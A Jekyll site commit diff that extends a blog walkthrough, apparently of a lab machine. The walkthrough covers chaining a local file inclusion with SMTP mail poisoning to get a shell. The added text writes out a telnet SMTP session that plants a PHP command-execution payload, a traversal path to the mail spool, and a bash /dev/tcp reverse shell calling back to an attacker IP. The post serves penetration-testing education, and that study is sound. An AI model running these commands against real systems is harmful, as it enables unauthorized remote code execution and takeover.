

Before and after one commit to janithmalinga/janithmalinga.github.io, a Jekyll site: the page built from _posts/2020-02-12-Using-LFI-and-SMTP-to-get-a-Shell.md, in a window 1280 px wide and 1400 px high, scrolled down 498 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1128 px from its top, so only the background shows below that.

Commit message:
Update 2020-02-12-Using-LFI-and-SMTP-to-get-a-Shell.md

````diff
--- a/_posts/2020-02-12-Using-LFI-and-SMTP-to-get-a-Shell.md
+++ b/_posts/2020-02-12-Using-LFI-and-SMTP-to-get-a-Shell.md
@@ -12,3 +12,45 @@ we are going to send the payload through SMTP(mail) and then we are going to exe
 This image shows the lfi that I have found,
 
 ![LFI by burpsuite](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-1.png)
+
+After finding the LFI, next step step is to write the system command on a file which we know the path, In this tutorial I'm going to write
+the system command that we need to execute in the mail folder using smtp protocol. Here are the commands I used to send a mail including the payload
+that we need to execute.
+
+## Send the mail with payload in it
+
+first connect to the smtp port using telnet,
+```
+telnet 10.10.10.7 25
+```
+Sending the email with embeded payload in the body,
+```
+EHLO test.com
+
+VRFY asterisk@localhost
+mail from: test.com
+rcpt to: asterisk@localhost
+data
+Subject: This is exploit
+<?php echo system($_REQUEST['cmd']); ?>
+.
+quit
+```
+now go to burpsuite and access the file "../../../../../../../..//var/mail/asterisk%00"
+![exploit saved in the mail](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-2.png)
+
+Yes we successfully exploited the whoami command n the system.
+
+## Getting the reverse shell
+
+For this task I'm using bash reverse shell on linux. Here is the command,
+```
+bash -i>& /dev/tcp/10.10.14.3/1337 0>&1
+```
+
+Then url encode it,
+```
+bash+-i>%26+/dev/tcp/10.10.14.3/1337+0>%261
+```
+using a netcat listner we can catch the reverse shell
+![Got the reverse shell](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_fli-smtp-shell/lfi-smtp-3.png)
````
